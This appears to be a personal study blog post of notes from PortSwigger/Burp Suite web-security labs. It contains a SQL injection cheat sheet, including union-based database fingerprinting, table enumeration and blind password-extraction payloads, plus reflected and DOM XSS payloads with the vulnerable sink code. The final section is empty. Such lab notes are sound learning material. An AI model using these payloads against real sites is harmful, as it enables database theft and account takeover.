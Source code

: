 ```yaml
---
title: BurpSuite Lab
author: Yuchao
date: 2022-05-10 11:33:00 +0800
categories: [sec]
tags: [burpsuite]
math: true
mermaid: true
---
```


# sql injection

#### cheetsheet
<https://portswigger.net/web-security/sql-injection/cheat-sheet>

```sql
'+OR+1=1--
'+UNION+SELECT+NULL,NULL--

-- find columns are compatible with string data
'+UNION+SELECT+'abcdef',NULL,NULL--

-- oracle, find database type and version
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

-- mysql, find database type and verion
'+UNION+SELECT+'abc','def'#
'+UNION+SELECT+@@version,+NULL#

-- list database contents, not oracle
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--

-- list database contents, oracle
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--

-- blind, conditional responses
-- "Welcome back" message disappears if error
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

```

# Cross-site scripting

#### Reflected XSS
- url ``` web-security-academy.net/?search=<script>alert%281%29<%2Fscript> ```
- ``` <script> alert(1) </script>```

#### DOM XSS
- "View source" option won't work for DOM XSS testing 


document.write
```js
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	trackSearch(query);
}
```
- ``` "><svg onload=alert(1)> ```


innerHTML
```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}

```
- ``` <img src=1 onerror=alert(1)> ```


href attribute
```javascript

```
- ```  ```

